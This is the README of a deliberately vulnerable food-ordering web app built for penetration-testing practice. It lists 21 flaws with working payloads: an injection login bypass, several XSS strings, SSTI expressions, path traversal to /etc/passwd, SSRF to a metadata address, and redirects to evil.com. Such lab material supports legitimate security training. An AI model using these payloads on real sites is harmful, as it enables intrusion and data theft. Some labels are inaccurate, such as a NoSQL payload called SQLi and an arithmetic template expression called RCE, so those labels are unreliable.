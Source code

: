 
# 🍔 DineHub – Vulnerable Food Ordering Platform

* **Author:** Rayan Al-AlAssiri
* **Difficulty:** Medium
* **Created:** 2025-09-30

---

## Synopsis

**DineHub** is a deliberately vulnerable online food ordering platform designed to simulate real-world web vulnerabilities with realistic protections and bypass requirements.  
The platform allows users to register, browse restaurants, place orders, leave reviews, and manage payments. Each vulnerability is intentionally implemented with partial security controls, requiring bypass techniques such as encoding tricks, payload manipulation, and chaining to exploit successfully.

The application mimics a production-grade SaaS product and supports manual penetration testing, vulnerability research, and automated scanning. Attackers must exploit vulnerabilities in a realistic multi-step chain — starting with authentication bypass and culminating in internal network access.

---

## Quick Solution

> **Purpose:** A compact, human-readable manifest for fast validation.

| # | Vulnerability       | Affected Path                                | PoC                                      |
|---|---------------------|----------------------------------------------|------------------------------------------|
| 1 | SQLi (Auth Bypass)  | *POST* `/auth/login` (JSON body)              | `{ "username": {"$ne": null}, "password": {"$ne": null} }` |
| 2 | SQLi (Data Dump)    | *GET* `/restaurants?filter=`                  | `filter=1 OR 2>1`                        |
| 3 | Reflected XSS       | *GET* `/search` (q parameter)                 | `/search?q=<math href=javascript:alert(1)>` |
| 4 | Stored XSS          | *POST* `/review/add`                          | `<iframe srcdoc="<script>fetch('/cookie')</script>"></iframe>` |
| 5 | SSTI (Template Eval)| *POST* `/admin/announcement`                 | `{{ ''.join(['__cla','ss__']) }}`       |
| 6 | SSTI (RCE)          | *POST* `/admin/offer`                        | `{{ (7).__pow__(2) }}`                   |
| 7 | IDOR (View Order)   | *GET* `/order?id=4a7d1ed414474e4033ac29ccb8653d9b` | Access another user's order data |
| 8 | IDOR (Delete Order) | *POST* `/order/delete`                        | `orderId=00000000-0000-0000-0000-000000000002` |
| 9 | Path Traversal      | *GET* `/receipt/download?file=`               | `file=..%252F..%252F..%252Fetc%252Fpasswd` |
| 10 | Path Traversal (Source Leak) | *GET* `/admin/logs?path=`         | `path=....//....//etc//passwd`          |
| 11 | Sensitive Data Exposure | *GET* `/api/debug`                      | `GET /api/debug?invoice=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA` |
| 12 | Sensitive Data Exposure | *GET* `/admin/config`                  | Retrieve exposed API key from config    |
| 13 | SSRF (Localhost)   | *GET* `/fetch/logo?url=`                      | `url=http://0x7f000001:8080`             |
| 14 | SSRF (Metadata)    | *GET* `/admin/fetch_report?url=`             | `url=http://2130706433/latest/meta-data/` |
| 15 | XXE (Local File)   | *POST* `/import/xml`                         | Malicious XML entity read local files   |
| 16 | XXE (Chained Entity)| *POST* `/admin/import`                      | Internal entity chaining to exfiltrate data |
| 17 | Open Redirect      | *GET* `/redirect?next=`                       | `/redirect?next=%2F%2Fevil.com`         |
| 18 | Open Redirect (Admin) | *GET* `/admin/redirect?to=`              | `/admin/redirect?to=https:evil.com`     |
| 19 | Vulnerable Component | Flask <=0.11                              | Trigger known RCE vulnerability         |
| 20 | Vulnerable Component | Requests <=2.18.0                         | SSRF via HTTP request handling          |
| 21 | DOM-Based XSS       | *GET* `/feedback/preview` (hash parameter)  | `#/feedback=<img src=x onerror=alert(1)>` |

---

## Vulnerabilities (Detailed)

### 1. SQL Injection – Authentication Bypass (Advanced)
**Summary:** The login API uses partial parameterized queries, but still concatenates user input from the JSON body. This can be bypassed by using a JSON-style payload to trick the backend logic.  
**Steps to Reproduce:**
1. Send a POST request to `/auth/login` with the following JSON body:
```json
{ "username": {"$ne": null}, "password": {"$ne": null} }
```
2. Gain authenticated session without valid credentials.
**PoC screenshot or unlisted video URL:**  
> **Note:** SOON WILL BE PRESENTED

---

### 21. DOM-Based XSS – Feedback Preview
**Summary:** The feedback preview page reads the `location.hash` value and renders it directly into the DOM using `innerHTML`, making it vulnerable to DOM-based XSS.  
**Steps to Reproduce:**
1. Visit `/feedback/preview#/feedback=<img src=x onerror=alert(1)>`
2. Observe JavaScript execution in the victim’s browser
**PoC screenshot or unlisted video URL:**  
> **Note:** SOON WILL BE PRESENTED

---

## Build / Run Instructions

Provide reproducible steps to run the app locally, and mention any inputs/commands required:

```bash
# run the build-docker.sh file
./build-docker.sh
```

